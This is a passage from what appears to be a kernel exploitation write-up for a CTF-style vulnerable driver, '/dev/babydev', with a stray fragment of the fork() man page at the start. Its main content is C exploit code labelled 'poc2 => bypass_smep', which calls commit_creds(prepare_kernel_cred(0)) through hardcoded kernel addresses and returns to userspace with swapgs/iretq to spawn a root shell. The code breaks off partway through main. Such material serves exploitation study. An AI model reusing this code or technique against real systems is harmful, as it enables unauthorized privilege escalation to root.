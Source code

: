 >RETURN VALUE:
       On  success, the PID of the child process is returned in the parent, and 0 is returned in the child.  On
       failure, -1 is returned in the parent, no child process is created, and errno is set appropriately.

* poc2 => bypass_smep

```c
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <sys/mman.h>

unsigned long long user_cs, user_ss, user_rflags, user_sp;
void* (*prepare_kernel_cred)(void*) = 0xffffffff810a1810;
void  (*commit_creds)(void*) = 0xffffffff810a1420;

void save_stats() {
    asm(
        "movq %%cs, %0;"
        "movq %%ss, %1;"
        "movq %%rsp, %2;"
        "pushfq;"
        "popq %3;"
        : "=r" (user_cs), "=r" (user_ss), "=r" (user_sp), "=r" (user_rflags) : : "memory");
}
void usergadget()
{
    commit_creds(prepare_kernel_cred(0));
	asm(
		"pushq   %0;"
		"pushq   %1;"
		"pushq   %2;"
		"pushq   %3;"
		"pushq   $shell;"
		"pushq   $0;"
		"swapgs;"
		"popq    %%rbp;"
		"iretq;"
		::"m"(user_ss), "m"(user_sp), "m"(user_rflags), "m"(user_cs)
	);
}

void shell()
{
	if(getuid()==0)
	{
		system("/bin/sh");
	}
	printf("[!] No root shell");
}

int main()
{
	int fd1;
	int fd2;
	int fd;
	void* before;
	void* after;
	void** buf;
	void** vft;

	save_stats();
	fd1 = open("/dev/babydev",2);
	fd2 = open("/dev/babydev",2);
```
